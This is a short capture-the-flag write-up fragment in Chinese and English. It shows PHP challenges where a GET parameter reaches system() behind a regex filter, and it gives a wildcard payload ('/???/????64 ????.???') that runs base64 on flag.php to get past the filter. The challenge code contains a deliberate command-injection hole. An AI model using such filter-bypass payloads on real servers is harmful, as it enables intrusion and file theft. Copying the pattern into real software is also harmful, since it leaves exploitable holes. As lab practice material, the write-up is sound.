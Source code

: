 ##### web55-56
```php
<?php
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
payload:
```
?c=/???/????64 ????.???
意思是 /bin/base64 flag.php
```

##### web57
``` php
<?php
// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
} 
```



